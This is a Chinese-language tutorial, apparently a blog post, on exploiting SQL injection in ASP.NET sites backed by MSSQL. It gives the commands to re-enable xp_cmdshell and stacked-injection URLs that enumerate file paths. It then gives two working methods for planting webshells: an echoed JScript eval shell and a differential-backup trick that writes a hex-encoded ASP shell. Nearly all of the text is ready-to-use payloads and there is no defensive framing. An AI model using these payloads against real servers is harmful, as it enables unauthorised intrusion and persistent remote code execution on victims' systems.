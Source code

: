 可以用如下命令恢复

```
;EXEC sp_configure 'show advanced options',1;//允许修改高级参数
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;  //打开xp_cmdshell扩展
RECONFIGURE;--
```

当然还不行可能xplog70.dll需要恢复，看具体情况来解决吧

接下来我们先来看cmd中怎么查找文件。

```bash
C:\Users\Y4er>for /r e:\ %i in (1*.php) do @echo %i
e:\code\php\1.php
C:\Users\Y4er>
```

那么我们只需要建立一个表 存在一个char字段就可以了

```mssql
http://192.168.130.137/1.aspx?id=1;CREATE TABLE cmdtmp (dir varchar(8000));

http://192.168.130.137/1.aspx?id=1;insert into cmdtmp(dir) exec master..xp_cmdshell 'for /r c:\ %i in (1*.aspx) do @echo %i'
```

然后通过注入去查询该表就可以了。

---

此时我们拿到绝对路径之后，我们接着往下看怎么拿shell

### xp_cmdshell拿shell

xp_cmdshell这个存储过程可以用来执行cmd命令，那么我们可以通过cmd的echo命令来写入shell，当然前提是你知道web目录的绝对路径

```mssql
http://192.168.130.137/1.aspx?id=1;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > c:\\WWW\\404.aspx' ;
```

由于cmd写webshell的主意这些转义的问题 推荐使用certutil或者vbs什么的来下载

### 差异备份拿shell

```mssql
1. backup database 库名 to disk = 'c:\bak.bak';--

2. create table [dbo].[test] ([cmd] [image]);

3. insert into test(cmd) values(0x3C25657865637574652872657175657374282261222929253E)

4. backup database 库名 to disk='C:\d.asp' WITH DIFFERENTIAL,FORMAT;--
```

因为权限的问题，最好不要备份到盘符根目录
